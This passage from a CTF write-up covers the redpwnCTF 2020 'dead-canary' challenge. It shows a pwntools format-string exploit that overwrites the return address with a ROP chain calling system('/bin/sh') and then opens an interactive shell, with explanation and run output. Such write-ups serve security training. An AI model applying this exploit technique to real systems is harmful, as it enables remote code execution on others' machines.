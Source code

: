 ```python
payload = fmtstr_payload(offset,{
    retaddr+ 0:ret,
    retaddr+ 8:pop_rdi,
    retaddr+16:libc.search(b'/bin/sh').__next__(),
    retaddr+24:libc.symbols['system']
},numbwritten=0,write_size='short',overflows=1)

log.info('payload len: ' + str(len(payload)))
if len(payload) > 0x118 - 0x10:
    log.critical('payload too long! exiting!')
    sys.exit(1)

p.sendline(payload)

# take out the garbage
null = payload.find(b'\x00')
log.info('null loc: ' + str(null))
p.recvuntil(payload[null-2:null])

p.interactive()
```

This starts out just like all the rest, except this time only libc and the stack is leaked, no canary required, no _bof_ attempted.

The second and final pass uses a single format string exploit to write out the payload starting at the return address.  This is an example of multiple writes with a single format string.  Since nothing else emitted, no need to _offset_ the `offset`, also no previous emitted byte count required either (`numbwritten`).  However, `write_size` set to `short` is recommended.  By default the format string will be constructed to update bytes, this emits much less garbage and execute faster at the expense of a longer format string.  In this case the format string is too long more often than not (remember ASLR, things change).

```
if len(payload) > 0x118 - 0x10:
    log.critical('payload too long! exiting!')
    sys.exit(1)
```

Checks if the format string will overrun the canary and will just bail if too long.  Changing the `write_size` to `short` will produce a shorter format string and the expense of a lot more garbage, however the same trick as used before can manage that so that we get nice clean output.

> The other option is to keep the size as `byte` (default) and increase `overflows`, but this task does not need that level of tuning.

Output:

```
# ./exploit6.py
[*] '/pwd/datajerk/redpwnctf2020/dead-canary/bin/dead-canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for './dead-canary'
[+] Opening connection to 2020.redpwnc.tf on port 31744: Done
[*] __libc_start_main: 0x7f853e35eab0
[*] baselibc: 0x7f853e33d000
[*] retaddr: 0x7fff6a7afe98
```